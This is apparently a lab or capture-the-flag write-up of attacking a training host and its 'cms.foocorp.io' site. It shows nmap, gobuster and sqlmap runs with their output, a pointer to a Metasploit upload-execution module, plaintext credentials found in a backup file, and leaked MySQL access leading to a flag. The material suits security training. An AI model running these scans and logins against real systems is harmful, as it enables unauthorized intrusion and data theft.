






# 172.16.64.81
```
Nmap scan report for 172.16.64.81
Host is up (0.094s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 09:1e:bf:d0:44:0f:bc:c8:64:bd:ac:16:09:79:ca:a8 (RSA)
|   256 df:60:fc:fc:db:4b:be:b6:3e:7a:4e:84:4c:a1:57:7d (ECDSA)
|_  256 ce:8c:fe:bd:76:77:8e:bd:c9:b8:8e:dc:66:b8:80:38 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We immediately see this is just a default Apache install page so don't waste time. Gobuster it. 
```
gobuster dir -u 172.16.64.81 -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt -r
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.16.64.81
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
2021/08/18 15:07:05 Starting gobuster in directory enumeration mode
===============================================================
/default              (Status: 200) [Size: 11321]
/webapp               (Status: 200) [Size: 6358] 
```

`/default` is still apache so let's check `/webapp`


trying `admin:admin` gives us an error page with some weird HTML rendering, possible SQLi?


Looking at the URL we have a possibility:  
`http://172.16.64.81/webapp/process.php?do=login&username=admin&password=admin&language=en` so let's fire up sqlmap and try to get some injection
```
sqlmap -u http://172.16.64.81/webapp/process.php?do=login
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.5.3#stable}
|_ -| . [,]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 15:13:47 /2021-08-18/

[15:13:48] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=33iuua47b7t...m4rh88oiq2'). Do you want to use those [Y/n] y
[15:13:49] [INFO] checking if the target is protected by some kind of WAF/IPS
[15:13:49] [INFO] testing if the target URL content is stable
[15:13:49] [INFO] target URL content is stable
[15:13:49] [INFO] testing if GET parameter 'do' is dynamic
got a 302 redirect to 'http://cms.foocorp.io/index.php'. Do you want to follow? [Y/n] n
```

Interesting, it tried to redirect to a subdomain, let's add this to our `/etc/hosts` file and go to it. 


Running sqlmap on this domain yields no SQLi but searching google for ProjectSend r1053 we see a [Rapid7](https://www.rapid7.com/db/modules/exploit/unix/webapp/projectsend_upload_exec/) article for a metasploit module. 


Running this however failed because of a missing `process-upload.php` file -- let's come back later after we hopefully find credentials

```
gobuster dir -u http://cms.foocorp.io/ -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt -r
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://cms.foocorp.io/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
2021/08/18 15:26:01 Starting gobuster in directory enumeration mode
===============================================================
/img                  (Status: 200) [Size: 3225]
/templates            (Status: 200) [Size: 1755]
/assets               (Status: 200) [Size: 1149]
/upload               (Status: 200) [Size: 935] 
/css                  (Status: 200) [Size: 2367]
/includes             (Status: 200) [Size: 7711]
/install              (Status: 200) [Size: 3017]
/lang                 (Status: 200) [Size: 1327]
/emails               (Status: 200) [Size: 3083]
Progress: 10324 / 87665 (11.78%)               [ERROR] 2021/08/18 15:28:17 [!] Get "http://cms.foocorp.io/vignere": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] 2021/08/18 15:28:18 [!] Get "http://cms.foocorp.io/cast-256": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
Progress: 61801 / 87665 (70.50%)               ^C
[!] Keyboard interrupt detected, terminating.
                                                
===============================================================
2021/08/18 15:37:24 Finished
===============================================================
```

Turning on burpsuite proxy we can start going through the websites directory structure, ultimately we find `/img/custom/thumbs/` which has a `users.bak' file. and contains two new username:password pairs  
```
john1:password123
peter:youdonotguessthatone5
```



We can try these at the cms login. The username john1 works, however we are taken to a 500 page. If we check burp proxy, we are given some mysql credentials in the response header  


Connecting to this via mysql and enumarting we will see a table named `flag` within the `cmsbase` database. 

